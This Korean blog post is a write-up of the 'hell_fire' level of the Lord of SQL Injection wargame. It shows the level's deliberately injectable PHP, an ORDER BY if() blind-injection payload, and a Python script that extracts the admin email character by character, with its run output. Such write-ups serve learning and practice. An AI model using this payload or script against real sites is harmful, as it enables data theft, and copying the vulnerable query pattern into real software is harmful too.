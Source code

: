 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - hell_fire 문제풀이"
excerpt_separator: <!--more-->
comments : true
tags:
  - Write-up
  - Lord of SQL Injection
---
```


이번 문제에는 위에 갑자기 표가 나온다.  

그리고 `pw`를 맞추는게 아니라 이번에는 `email` 주소를 알아야 한다.  

<!--more-->

코드는 다음과 같다.  

```php
------------------------------------------------------------------------------------------
query : select id,email,score from prob_hell_fire where 1 order by
------------------------------------------------------------------------------------------

<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|proc|union/i', $_GET[order])) exit("No Hack ~_~");
  $query = "select id,email,score from prob_hell_fire where 1 order by {$_GET[order]}";
  echo "<table border=1><tr><th>id</th><th>email</th><th>score</th>";
  $rows = mysql_query($query);
  while(($result = mysql_fetch_array($rows))){
    if($result['id'] == "admin") $result['email'] = "**************";
    echo "<tr><td>{$result[id]}</td><td>{$result[email]}</td><td>{$result[score]}</td></tr>";
  }
  echo "</table><hr>query : <strong>{$query}</strong><hr>";

  $_GET[email] = addslashes($_GET[email]);
  $query = "select email from prob_hell_fire where id='admin' and email='{$_GET[email]}'";
  $result = @mysql_fetch_array(mysql_query($query));
  if(($result['email']) && ($result['email'] === $_GET['email'])) solve("hell_fire");
  highlight_file(__FILE__);
?>
```

코드를 살펴보면 내가 입력한 값은 `order by` 뒤에 들어간다.  

그리고 `id, email, score`를 추출 하는데, 이 때 `admin`의 `email` 주소는 `**************`로 처리된다.  

쿼리문 위에는 표가 나타나는데, 형태는 다음과 같다.  

|id|   |email|   |score|
|---|---|---|---|---|
| |   | |   | |

일단 무슨 값이 저장되어 있는지 확인하기 위해서, `?order=id`를 입력해 보았다.  

그랬더니 표에 다음과 같이 데이터가 나왔다.  

|id|   |email|   |score|
|---|---|---|---|---|
|admin|   |**************|   |200|
|rubiya|   |rubiya805@gmail.cm|   |100|

그래서 문제를 어떻게 풀어야하는지 고민하다가, `order by` 뒤에 `if`문을 사용할 수 있다는 사실을 깨달았다.  

내가 처음에 생각 한 방법은, `?order=if(id='admin' and length(email)>0, score, id)`를 쿼리스트링으로 넘겨주는 것이었다.  

그럼 쿼리문이 아래와 같이 완성된다.  

```
select id,email,score from prob_hell_fire where 1 order by if(id='admin' and length(email)>0, score, id)
```

그렇다면 만약 `id`가 `admin`이고, 그 `email`의 길이가 `0`보다 크다면 조건이 참이기 때문에 `score`를 기준으로 정렬 할 것이고, 아니라면 `id`를 기준으로 정렬 할 것이라고 생각했다.  

그럼 참이라면 `rubiya` 행이, 거짓이라면 `admin`의 행이 위에 나타나게 될 것이다.  

실제로 내가 데이터베이스에서 테스트 해 보면 정상적으로 실행 됬었다.  

그런데 문제에서는 그게 안됬다.  

`id`를 `rubiya`로 두고 테스트를 할 때는 제대로 참, 거짓에 따라 `score` 혹은 `id`를 기준으로 정렬했다.  

그런데 `id='admin'`으로 두고 테스트 하면 무조건 `admin`인 행이 위에 나온다.  

왜 때문인지 모르겠다.  

그리고 또 한가지 이상한 점이 있는데, 쿼리스트링으로 `?order=if(id='admin' and length(email)>0, score, 9999)`를 넘겨주면 일단 참, 거짓 반응을 구분할 수 있다.  

하지만 `참`일 때 `score`를 기준으로 정렬하는게 아니라, `거짓`일 때 `score`를 기준으로 정렬을 해 조건이 맞지 않으면 `rubiya`가 위에 나왔다.  

얘도 왜그러는지 모르겠다...ㅎ  

그런데 어쨌든 참, 거짓에 따라 결과가 구분이 되길래 아래와 같이 코드를 짜서 돌려 보았다.  

만약 값이 참이라면 `admin` 행이, 거짓이라면 `rubiya` 행이 위에 나와서, `admin` 행이 위에 나온다면 그 값을 뽑아오게 했다.  

```python
import urllib2
import urllib
import requests

flag = ""
length = 0

url = "http://los.rubiya.kr/hell_fire_309d5f471fbdd4722d221835380bb805.php?order="
session = dict(PHPSESSID = "YOUR SESSION ID")

print "[+] Start"

print "[+] Find length of the password"

for i in range(0, 30):
	try:
		query = url + "if((id='admin' and length(email)=" + str(i) + "), score, 9999)"
		r = requests.post(query, cookies=session)
	except:
		print "[-] Error occur"
		continue
	if '<td>200</td></tr><tr><td>rubiya</td>' in r.text:
		length = i
		break

print "[+] Found length : ", length

print "[+] Find password"

for j in range(1, length + 1):
	for i in range(33, 128):
		try:
			query = url + "if((id='admin' and ord(substr(email, " + str(j) + ", 1))=" + str(i) + "), score, 9999)"
			r = requests.post(query, cookies=session)
		except:
			print "[-] Error occur"
			continue

		if '<td>200</td></tr><tr><td>rubiya</td>' in r.text:
			flag += chr(i)
			print "[+] Found " + str(j), ":", flag
			break

print "[+] Found password : ", flag
print "[+] End"
```

그랬더니 소스코드가 정상적으로 실행되서 문제를 풀 수 있었다.  

```
$ python ex.py 
[+] Start
[+] Find length of the password
[+] Found length :  28
[+] Find password
[+] Found 1 : a
[+] Found 2 : ad
[+] Found 3 : adm
[+] Found 4 : admi
[+] Found 5 : admin
[+] Found 6 : admin_
[+] Found 7 : admin_s
[+] Found 8 : admin_se
[+] Found 9 : admin_sec
[+] Found 10 : admin_secu
[+] Found 11 : admin_secur
[+] Found 12 : admin_secure
[+] Found 13 : admin_secure_
[+] Found 14 : admin_secure_e
[+] Found 15 : admin_secure_em
[+] Found 16 : admin_secure_ema
[+] Found 17 : admin_secure_emai
[+] Found 18 : admin_secure_email
[+] Found 19 : admin_secure_email@
[+] Found 20 : admin_secure_email@e
[+] Found 21 : admin_secure_email@em
[+] Found 22 : admin_secure_email@ema
[+] Found 23 : admin_secure_email@emai
[+] Found 24 : admin_secure_email@emai1
[+] Found 25 : admin_secure_email@emai1.
[+] Found 26 : admin_secure_email@emai1.c
[+] Found 27 : admin_secure_email@emai1.co
[+] Found 28 : admin_secure_email@emai1.com
[+] Found password :  admin_secure_email@emai1.com
[+] End
```

이 이메일 주소를 아래와 같이 쿼리스트링으로 넘겨주었더니 문제를 풀 수 있었다.  

```
?email=admin_secure_email@emai1.com
```

근데 왜 처음에 생각한 방법이 먹히지 않는지, 왜 거짓일 때 `score`를 기준으로 정렬하는지는 아직도 모르겠다.  

나중에 알게된다면 정리 해 둬야겠다.  

```php
------------------------------------------------------------------------------------------
query : select id,email,score from prob_hell_fire where 1 order by
------------------------------------------------------------------------------------------

HELL_FIRE Clear!
<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|proc|union/i', $_GET[order])) exit("No Hack ~_~");
  $query = "select id,email,score from prob_hell_fire where 1 order by {$_GET[order]}";
  echo "<table border=1><tr><th>id</th><th>email</th><th>score</th>";
  $rows = mysql_query($query);
  while(($result = mysql_fetch_array($rows))){
    if($result['id'] == "admin") $result['email'] = "**************";
    echo "<tr><td>{$result[id]}</td><td>{$result[email]}</td><td>{$result[score]}</td></tr>";
  }
  echo "</table><hr>query : <strong>{$query}</strong><hr>";

  $_GET[email] = addslashes($_GET[email]);
  $query = "select email from prob_hell_fire where id='admin' and email='{$_GET[email]}'";
  $result = @mysql_fetch_array(mysql_query($query));
  if(($result['email']) && ($result['email'] === $_GET['email'])) solve("hell_fire");
  highlight_file(__FILE__);
?>
```

`HELL_FIRE Clear!!`
